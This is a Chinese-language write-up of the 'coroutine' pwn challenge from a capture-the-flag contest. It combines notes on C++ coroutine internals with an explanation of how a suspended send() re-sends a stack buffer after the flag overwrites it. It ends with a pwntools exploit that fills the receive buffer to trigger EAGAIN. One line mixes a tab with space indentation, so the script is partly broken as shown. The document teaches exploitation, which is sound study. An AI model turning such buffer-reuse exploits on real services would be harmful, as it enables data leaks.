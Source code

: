 ## Pwn

### coroutine

在打這題之前需要對 coroutine 有基本的了解，而我推薦[文章 coroutine-theory](https://lewissbaker.github.io/2017/09/25/coroutine-theory)，基本上只要看了這篇後就能解出題目，以下是文章中的重點筆記：

- A coroutine is a generalisation of a function that allows the function to **be suspended** and then **later resumed**
  - 可以暫停並重新執行
- 一般的 function 的操作大致分成 call 與 return
  - Call: 建立一塊 activation frame，並將執行權限轉移
  - Return: destroys activation frame 後將執行結果 (回傳值) 傳給 caller
  - Activation frame - a block of memory that holds the **current state** of a particular invocation of a function
- Coroutines 將 function 的操作轉成三種: Suspend, Resume and Destroy
  - Suspends:
    1. stop execution of the coroutine at the current point
    2. transfers execution back to the **caller** or **resumer** without destroying the activation frame
    3. 只能在 well-defined suspend-points 停止，所以也不能說是任意停 (?
  - Resume: restore execution of a suspended coroutine at the point at which it was suspended
    - 也就是說 reactivates 此 coroutine 的 activation frame
  - Destroy: destroys the activation frame without resuming execution of the coroutine
- 可以將 coroutine 的 activation frame 視為兩個部分：
  - coroutine frame - persists while the coroutine is suspended
  - stack frame - exists while the coroutine is executing and **is freed when the coroutine suspends** and transfers execution back to the caller/resumer
- Suspend 能透過 keyword 來使用，像是 `co_await` 以及 `co_yield`，又被稱作 suspend-points
  - 當執行到 suspend-point 時，coroutine 會做以下準備：
    - 將 register 存於 coroutine frame
    - 寫一個值到 coroutine frame，代表 coroutine 目前是停在哪個 suspend-point
- Resume 用於恢復先前狀態，可以用 function call `coroutine_handle.resume()` 來達到
  - 根據特殊 ID 判斷 coroutine 停在哪個地方
  - 分配一塊新的 stack-frame，並將 caller 的 return-address 存到裡面
- Destroy 能透過呼叫 `coroutine_handle.resume()` 達成，跟 resume 一樣會看停止的地方決定處理方法
- Call
  - 當 function 執行完或是到達第一個 suspend-point 時，都會將執行權限交給 caller
  - Coroutine 在被呼叫時的第一件事情就是在 heap 上分配 coroutine-frame，並 copy/move stack-frame 的參數到 coroutine-frame
- Return
  - `co_return` keyword 會回傳 return value

總結來說：

- Coroutine 能做 **Suspend** 或 **Destroy** 
- 當 **Suspend**/**Destroy** 發生時執行權限會轉交給 caller/resumer
- **Return** 會回傳一個代表該 coroutine 的 handle，後續要 resume 時就可以直接呼叫 `handle.resume()`



---

題目的利用點在於當 SendSync 進入 coroutine 之前會先判斷是否需要轉移執行權限，而當 `SendSync.await_ready()` 的 `send()` return `EAGAIN` 時就代表 coroutine 還沒辦法執行完，所以會轉移執行權限，而此時 `run_until_done()` 會握有執行權，並且執行再次執行 `loadflag()`，然而用來讀 flag 的 buffer 會跟用來 send 的 buffer 重疊 (因為都在 stack 上)，因此一旦 _write 當中的 coroutine `resume()`，代表又會執行一次 `send()` function，而此時 stack 的資料已經被改成 flag。下列為關鍵的 `SendSync.await_ready()` function：

```c
bool await_ready() {
    int result = ::send(fd_, buffer_.data(), buffer_.size(), 0); // here
    if (result == -1 && (errno == EAGAIN || errno == EWOULDBLOCK))
    {
        return false;
    }

    result_ = result;
    return true;
}
```

因此問題變成要怎麼讓 `send()` 回傳 `EAGAIN`，這篇[文章](https://www.ibm.com/support/pages/why-does-send-return-eagain-ewouldblock)有提到說如果 receiver 的 recv buffer 已經滿了，則有可能就會讓 `send()` 回傳 EAGAIN，而要怎麼讓 recv buffer 滿，則是使用 proxy.py 提供的 `setsockopt(socket.SOL_SOCKET, socket.SO_RCVBUF, size)` 功能，不過最小的 recv buffer size 似乎為 2304，如果小於此值就會自動調成該值。

除此之外還有一些很關鍵的點，因為漏失這些關鍵使得我沒有在賽中成功解開題目：

1. 必須要在執行 `connect()` **前**呼叫 `setsockopt(socket.SO_RCVBUF)` 設定 recv buffer，否則不會生效
2. proxy.py 都會再輸入前印出 prompt `>`，但是如果 `recv()` 要等到 prompt 出來才執行會太慢，所以 option 5 接收資料時就直接送給 proxy.py size 與 option number
3. 最後就確保每次 option 5 間都簡單 sleep 一下，讓這些資料不要被串起來

以下為更新後的 exploit：

```python
#!/usr/bin/python3

import time
from pwn import *
from sys import argv

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

if len(argv) > 1:
    r = remote('coroutine.chal.idek.team', 1337)
else:
    r = process(['python3', 'proxy.py'])

def conn():
    r.sendlineafter('> ', '1')

def ch_recv(sz):
    r.sendlineafter('> ', '2')
    r.sendlineafter('Buffer size> ', str(sz))

def ch_send(sz):
    r.sendlineafter('> ', '3')
    r.sendlineafter('Buffer size> ', str(sz))

def send(data):
    r.sendlineafter('> ', '4')
    r.sendlineafter('Data> ', data)

def recv(sz):
	r.sendline('5')
    r.sendline(str(sz))
    #r.sendlineafter('> ', '5')
    #r.sendlineafter('Size> ', str(sz))

ch_recv(128) # 0 ~ 1152
conn()

## fill recv buffer
for i in range(8):
    send('A' * 511)

for _ in range(4):
    time.sleep(0.5)
    recv(10000)

r.interactive()
```

